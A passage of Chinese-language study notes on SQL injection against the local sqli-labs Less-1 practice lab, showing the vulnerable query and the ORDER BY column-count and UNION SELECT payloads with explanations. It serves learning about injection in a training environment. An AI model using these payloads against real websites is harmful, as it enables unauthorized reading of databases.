 成功执行！
![img](005_第六周—数据库相关注入语句的收集和学习/clip_image024.jpg)

## 2、‘order by 4--+

```
#语句为$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
Order by 对前面的数据进行排序，这里有三列数据，我们就只能用order by 3,超过 3 就会报错。

#输入语句http://127.0.0.1/sqllib/Less-1/?id=1'order by 3--+
#执行的MYSQL语句：SELECT * FROM users WHERE id='1'order by 3-- ' LIMIT 0,1
正常显示说明数据列对，显示错误说明数据列数错误；
```

![1567440373453](005_第六周—数据库相关注入语句的收集和学习\1567440373453.png)

![1567440400874](005_第六周—数据库相关注入语句的收集和学习\1567440400874.png)

## 3、’union select 1,2,3--+

```
#语句为$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
union 的作用是将两个 sql 语句进行联合。union 前后的两个 sql 语句的选择列数要相同才可以。

前面order by 测出数据有3列，下面构建 select 1,2,3 语句；用于回显

#输入语句http://127.0.0.1/sqllib/Less-1/?id=-1'union select 1,2,3--+
#执行的MYSQL语句：SELECT * FROM users WHERE id='-1'union select 1,2,3-- ' LIMIT 0,1

当 id 的数据在数据库中不存在时，（此时我们可以 id=-1，两个 sql 语句进行联合操作时，当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返回了我们构造的 union 的数据。
```
